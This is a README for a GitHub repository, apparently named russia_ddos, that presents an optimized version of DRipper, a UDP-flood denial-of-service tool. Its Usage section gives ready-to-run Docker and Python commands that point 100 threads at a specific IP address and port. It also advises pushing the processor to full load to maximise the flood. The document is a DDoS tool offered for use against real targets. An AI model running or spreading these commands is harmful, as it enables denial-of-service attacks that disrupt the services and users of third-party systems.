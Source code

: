 ## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s 213.24.76.23 -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s 213.24.76.23 -p 80 -t 100
# OR
python3 -u DRipper.py -s 213.24.76.23 -p 80 -t 100
```
